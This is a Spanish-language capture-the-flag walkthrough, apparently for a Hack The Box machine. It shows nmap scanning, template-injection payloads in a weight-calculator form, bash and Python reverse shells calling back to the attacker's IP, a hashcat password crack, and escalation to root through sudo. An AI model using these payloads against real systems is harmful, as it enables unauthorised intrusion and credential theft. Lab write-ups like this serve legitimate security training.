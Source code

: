 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.11.253 -oN escaneo
```
![alt text](image.png)

Vemos que tiene el puerto 80 correspondiendo au un servidor nginx. Así que vamos a ver que esconde.
![alt text](image-1.png)

Vemos que arriba nos pone un apartado de calculadora de peso, así que vamos a ver que esconde.
![alt text](image-2.png)

Vemos que permite que introduzcamos texto, así que a lo mejor podemos realizar injecciones para generarnos un a revershell. Pero antes de eso, vamos a ver comos se comporta. Vamos a interceptar la petición con `burpsuite`.
![alt text](image-3.png)

Vemos que lo pone de resultado la categoría y un porcentaje. Ahora vamos a provar de injectar payloads en el input de categoría.
```
A%0A;<%25%3d+7*7+%25>
```
![alt text](image-4.png)

Vemos que da el resultado de la multiplicación. Ahora vamos a ver si podemos ejecutar código del servidor.
```
A%0A;<%25%3d+`whoami`+%25>
```
![alt text](image-5.png)

Entonces, una vez vemos que nos permite ejecutar comandos del servidor, vamos a generarnos la revershell.
Encodeamos la revershell en `base64`.
```
echo "bash -c 'exec bash -i &>/dev/tcp/10.10.14.90/6969 <&1'" | base64
```
![alt text](image-6.png)

Una vez la tenemos encodeada, vamos a ponerla en el payload.
```
A%0A;<%25%3d+`export+RHOST="10.10.14.90";export+RPORT=4444;python3+-c+'import+sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)];pty.spawn("sh")'`+%25>
```
![alt text](image-7.png)

![alt text](image-8.png)

Vemos que ya estamos dentro. Ahora vamos a hacer el tratatmiento de la tty para evitar problemas con la shell.
```
script /dev/null -c bash
Cntl + Z
stty  raw -echo;fg
reset xterm
export SHELL=bash
export TERM=xterm
```

Ahora nos iremos a la carpeta del usuario `susan` que la ruta es: `/home/susan`.
![alt text](image-9.png)

Ahora vamos a escalar los privilegios para llegar al usuario root (administrador). Ejecutaremos el archivo `linpeas.sh` para ver si hay alguna vulnerabilidad que podamos explotar.

El linpeas, nos ha dicho la ruta de un archivo que contiene las credenciales del usuario susan, asi que vamos deshashearlas.
```
hashcat -m 1400 susanHash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d
```

La contraseña que ha descifrado es `susan_nasus_413759210`. Una vez esto, vamos mirar que binarios podemos explotar.
```
sudo -l
```
![alt text](image-10.png)

Vemos que podemos explotar todos los binarios, así que vamos a escalar a root.
```
sudo su
```
![alt text](image-11.png)

Ahora solo nos falta la flag del usuario root.
```
cat /root/root.txt
```
![alt text](image-12.png)